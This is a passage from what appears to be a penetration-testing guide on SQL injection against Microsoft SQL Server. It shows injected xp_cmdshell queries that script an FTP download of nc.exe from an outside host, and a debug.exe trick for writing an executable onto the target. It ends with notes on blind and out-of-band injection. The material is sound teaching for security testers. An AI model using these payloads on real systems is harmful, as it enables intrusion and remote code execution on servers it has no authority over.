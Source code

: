 ```sql
exec master..xp_cmdshell 'echo open ftp.tester.org > ftpscript.txt';--
exec master..xp_cmdshell 'echo USER >> ftpscript.txt';--
exec master..xp_cmdshell 'echo PASS >> ftpscript.txt';--
exec master..xp_cmdshell 'echo bin >> ftpscript.txt';--
exec master..xp_cmdshell 'echo get nc.exe >> ftpscript.txt';--
exec master..xp_cmdshell 'echo quit >> ftpscript.txt';--
exec master..xp_cmdshell 'ftp -s:ftpscript.txt';--
```

At this point, `nc.exe` will be uploaded and available.

If FTP is not allowed by the firewall, we have a workaround that exploits the Windows debugger, `debug.exe`, that is installed by default in all Windows machines. `Debug.exe` is scriptable and is able to create an executable by executing an appropriate script file. What we need to do is to convert the executable into a debug script (which is a 100% ASCII file), upload it line by line and finally call `debug.exe` on it. There are several tools that create such debug files (e.g.: `makescr.exe` by Ollie Whitehouse and `dbgtool.exe` by `toolcrypt.org`). The queries to inject will therefore be the following:

```sql
exec master..xp_cmdshell 'echo [debug script line #1 of n] > debugscript.txt';--
exec master..xp_cmdshell 'echo [debug script line #2 of n] >> debugscript.txt';--
....
exec master..xp_cmdshell 'echo [debug script line #n of n] >> debugscript.txt';--
exec master..xp_cmdshell 'debug.exe < debugscript.txt';--
```

At this point, our executable is available on the target machine, ready to be executed. There are tools that automate this process, most notably `Bobcat`, which runs on Windows, and `Sqlninja`, which runs on Unix (See the tools at the bottom of this page).

### Obtain Information When It Is Not Displayed (Out of Band)

Not all is lost when the web application does not return any information --such as descriptive error messages (cf. [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection)). For example, it might happen that one has access to the source code (e.g., because the web application is based on an open source software). Then, the pen tester can exploit all the SQL injection vulnerabilities discovered offline in the web application. Although an IPS might stop some of these attacks, the best way would be to proceed as follows: develop and test the attacks in a testbed created for that purpose, and then execute these attacks against the web application being tested.

Other options for out of band attacks are described in [Sample 4 above](#Example-4:-Yet-Another-(Useful)-GET-Example).

### Blind SQL Injection Attacks

#### Trial and Error

Alternatively, one may play lucky. That is the attacker may assume that there is a blind or out-of-band SQL injection vulnerability in a the web application. He will then select an attack vector (e.g., a web entry), [use fuzz vectors](../../6-Appendix/C-Fuzz_Vectors.md) against this channel and watch the response. For example, if the web application is looking for a book using a query
